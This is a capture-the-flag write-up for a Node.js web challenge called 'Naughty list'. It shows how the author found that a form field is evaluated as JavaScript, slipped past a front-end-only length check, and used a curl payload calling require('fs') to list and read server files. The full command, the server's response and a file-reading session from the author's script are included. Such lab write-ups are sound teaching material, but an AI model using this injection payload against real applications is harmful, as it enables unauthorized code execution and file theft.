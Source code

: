 # Day 3. Naughty list

> The Santa has his naughty list. Can you find where it's stored?

https://naughty.owasp.si/

![naughty1.png](naughty1.png)

## Solution

The challenge is an HTML form that sends POST request with `name` and `age` as parameters. Let's be wild and press "Submit" button straight away, without any input:

![naughty2.png](naughty2.png)

The Status says "Unexpected end of input", so the backend is likely written in JavaScript. We can try different inputs, but I tried sending `name=this&age=20`, and it yielded `[object global]20` status. So, there is likely a dumb evaluation of `name` parameter as JS code.

Let 's try something like `this.process.mainModule.require('fs').readdirSync('.')` (inspired by [this writeup](https://ctftime.org/writeup/6773)). However, this gives `You won't be on Santa's nice list` status. A quick investigation revealed that `name` parameter has a limit of 20 characters.

However, we can send the same payload in the `age` parameter, because the validation is only performed on frontend. It worked:

```
$ curl -d "name=0&age=this.process.mainModule.require('fs').readdirSync('.')" https://naughty.owasp.si/
<!DOCTYPE html><html lang="en"></html><html><head><meta charset="utf-8"><meta http-equiv="X-UA-Compatible" content="IE=edge"><meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=no"><title>UserTracker</title><link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0-alpha.2/css/bootstrap.min.css"></head><body style="padding: 40px;"><h1 style="text-align: center;">Your Santa's naughty or nice list candidate</h1><br><h5 style="text-align: center;">Carefully review your entry. Candidate will be added to the list soon.</h5><br><div class="row" style="display:flex; justify-content: center;"><div class="col-md-3"><div class="form-group"><label for="id">ID:</label><input class="form-control" id="id" type="number" placeholder="1" name="id" disabled value="259"></div></div></div><div class="row" style="display:flex; justify-content: center;"><div class="col-md-3"><div class="form-group"><label for="name">Name and surname:</label><input class="form-control" id="name" type="text" placeholder="John Doe" name="name" disabled value="0"></div></div></div><div class="row" style="display:flex; justify-content: center;"><div class="col-md-3"><div class="form-group"><label for="age">Age:</label><input class="form-control" id="age" type="text" placeholder="20" name="age" disabled value="this.process.mainModule.require('fs').readdirSync('.')"></div></div></div><div class="row" style="display:flex; justify-content: center;"><div class="col-md-3"><div class="form-group"><label for="status">Status:</label><input class="form-control" id="status" type="text" placeholder="Naughty" name="status" disabled value="0app.js,node_modules,package-lock.json,package.json,routes,static,views"></div></div></div><br><div class="row" style="display:flex; justify-content: center; text-align: center;"><div class="col-md-3"><div class="form-group"><a class="btn btn-primary" type="button" href="?page=0&amp;pageSize=10">Go back home</a></div></div></div></body></html>
```
Note `app.js,node_modules,package-lock.json,package.json,routes,static,views` in the output. At this point, it became obvious how to get the flag and I did it.

Later this day, I weaponized the [solution](./solution.py) and made getting the flag more comfortable:

```
$ ./solution.py
> ls .
app.js
node_modules
package-lock.json
package.json
routes
static
views

> ls static
flag.txt
users.json

> cat static/flag.txt
ctf{H0m3_Al0n3}
```

## Bonus: source code

I was curious and extracted the whole application, you can find it [here](./src).

How to run:

```
npm i
node app.js
```
